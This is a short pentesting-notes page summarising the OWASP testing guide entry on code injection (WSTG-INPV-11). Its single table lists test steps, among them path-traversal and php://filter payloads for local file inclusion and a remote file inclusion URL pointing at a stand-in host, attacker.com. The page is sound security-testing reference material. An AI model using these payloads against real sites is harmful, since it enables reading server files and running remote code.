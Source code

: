 ```yaml
---
title: Testing for Code Injection - OWASP Web Security Testing Guide 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - web pentesting
  - WSTG-INPV-11
---
```




# Testing for Code Injection

!!! quote ""
	[OWASP Web Security Testing Guide 4.2](index.md) > 7. Data Validation Testing > 7.11. Testing for Code Injection

|ID|Link to Hackinglife|Link to OWASP|Description|
|:---|:---|:---|:---|
|7.11|[WSTG-INPV-11](WSTG-INPV-11.md)|[Testing for Code Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11-Testing_for_Code_Injection)|- Identify injection points where you can inject code into the application.  - Check LFI with dot-dot-slash (../../), PHP Wrapper (php://filter/convert.base64-encode/resource).  - Check RFI from malicious URL  ?page.php?file=http://attacker.com/malicious_page  - Assess the injection severity.|

